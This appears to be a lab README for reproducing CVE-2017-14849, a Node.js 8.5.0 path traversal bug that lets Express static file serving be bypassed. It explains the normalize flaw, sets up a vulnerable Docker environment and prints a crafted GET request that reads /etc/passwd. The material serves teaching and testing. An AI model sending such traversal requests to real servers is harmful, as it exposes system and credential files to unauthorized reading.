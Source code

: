 # Node.js Path Traversal (CVE-2017-14849)

[中文版本(Chinese version)](README.zh-cn.md)

Node.js is a cross-platform, open-source JavaScript runtime environment. Node.js 8.5.0 before 8.6.0 allows remote attackers to access unintended files, because a change to ".." handling was incompatible with the pathname validation used by unspecified community modules.

The vulnerability exists due to a logic error in Node.js 8.5.0's `normalize` function when handling directory paths. When traversing up directories (e.g., `../../../../../../etc/passwd`), adding `foo/../` in the middle of the path (e.g., `../../../foo/../../../../etc/passwd`) causes `normalize` to incorrectly return `/etc/passwd`, when the correct result should be `../../../../../../etc/passwd`.

Web frameworks like Express typically provide static file server functionality that relies on the `normalize` function. For example, Express uses the `normalize` function to check if a path exceeds the static directory boundaries. The above bug causes the `normalize` function to return incorrect results, bypassing these checks and leading to arbitrary file read vulnerabilities.

While the `normalize` bug could potentially affect more than just Express and requires further investigation, its impact is limited since the bug was introduced in Node.js 8.5.0 and was fixed in version 8.6.

Reference links:

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

## Environment Setup

Run following commands to build and run a vulnerable application based on the Node.JS 8.5.0 and Express 4.15.5:

```
docker compose build
docker compose up -d
```

Visit `http://your-ip:3000/` to see a web page that references the file `/static/main.js`, indicating the presence of a static file server.

## Vulnerability Reproduce

Send the following request to read the passwd file:

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](1.png)

